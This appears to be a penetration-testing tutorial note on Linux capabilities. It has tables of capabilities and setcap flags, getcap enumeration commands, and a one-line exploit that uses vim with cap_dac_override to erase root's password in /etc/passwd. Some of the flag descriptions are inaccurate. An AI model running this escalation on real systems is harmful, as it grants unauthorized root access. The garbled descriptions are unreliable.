 | Capability              | Description |
|-------------------------|-------------|
| `cap_sys_admin`         | Allows to perform actions with administrative privileges, such as modifying system files or changing system settings. |
| `cap_sys_chroot`        | Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible. |
| `cap_sys_ptrace`        | Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes. |
| `cap_sys_nice`          | Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted. |
| `cap_sys_time`          | Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways. |
| `cap_sys_resource`      | Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated. |
| `cap_sys_module`        | Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information. |
| `cap_net_bind_service`  | Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions. |

Here are some examples of values that we can use with the setcap command, along with a brief description of what they do:

| Capability Values | Description |
|-------------------|-------------|
| `=`               | This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable. |
| `+ep`             | This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. |
| `+ei`             | This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions. |
| `+p`              | This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it. |

Several Linux capabilities can be used to escalate a user's privileges to root, including:

| Capability       | Description                                                                                                                      |
|------------------|----------------------------------------------------------------------------------------------------------------------------------|
| cap_setuid       | Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the root user. |
| cap_setgid       | Allows to set its effective group ID, which can be used to gain the privileges of another group, including the root group.        |
| cap_sys_admin    | This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the root user, such as modifying system settings and mounting and unmounting file systems. |
| cap_dac_override | Allows bypassing of file read, write, and execute permission checks.                                                             |

**Enumerating Capabilities**
````
$ find / -type f -perm /u+s,g+s -exec getcap {} \; 2>/dev/null
$ find / -type f -exec getcap {} \; 2>/dev/null | grep -v "= $"
$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
````
**Exploitation**
````
$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
````
Now the root user has no password.
